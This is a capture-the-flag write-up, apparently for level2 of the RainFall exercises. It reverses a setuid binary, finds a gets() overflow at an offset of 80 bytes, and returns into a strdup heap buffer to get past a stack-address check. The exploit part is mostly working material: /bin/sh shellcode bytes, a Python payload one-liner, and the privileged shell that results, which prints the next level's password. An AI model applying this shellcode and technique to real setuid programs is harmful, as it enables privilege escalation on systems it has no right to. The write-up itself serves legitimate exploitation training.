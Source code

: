 level2
======

*	We spawn with a [level2](source/level2) executable
	```console
	level2@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
	level2@RainFall:~$ ./level2 
	█
	```
*	Let's take a look at the code in gdb
	```gdb
	(gdb) info functions
	All defined functions:
	...
	0x080484d4  p
	0x0804853f  main
	...
	```
*	We can see two functions : `p` and `main`
	-	`main` is just calling `p`
	-	`p` is a bit more complicated :
		-	declares an array of `76` char
		-	`gets` in this array
		-	protect the return addressand uses `printf` 
		-	uses `puts` and `strdup` on our array
*	Let's try overflowing the buffer
	```console
	(gdb) r
	Starting program: /home/user/level2/level2 
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7A
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7A

	Program received signal SIGSEGV, Segmentation fault.
	0x37634136 in ?? ()
	```
	we found out that the offset of `$eip` is equal to `80`
*	It is nice to have a weakness in the code and the offset but there is nothing to exploit inside of it. So we need to use a shellcode to execute `/bin/sh`.
*	Crafting the payload :
	-	buffer = 80 bytes
	-	shellcode (`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`) = 23 bytes
	-	return address = 4 bytes
*	But of course it is never that easy, so this time it seems that there is `cmp` to make sure we don't overwrite the return address within a certain range
	```assembly
	and    $0xb0000000,%eax
	cmp    $0xb0000000,%eax
	```
	Basically, it restrict anything that starts with `0xb` to make sure we don't use the stack
*	So we need to use the heap !
	```console
	level2@RainFall:~$ ltrace ./level2 
	...
	strdup("")                                                                                = 0x0804a008
	...
	```
	this allow us to retrieve the return address of `strdup` -> `\x08\xa0\x04\x08`
*	We tried this
	```console
	level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*59 + "\x08\xa0\x04\x08"' > /tmp/payload
	level2@RainFall:~$ cat /tmp/payload - | ./level2 
	whoami
	level3
	cat /home/user/level3/.pass
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
	```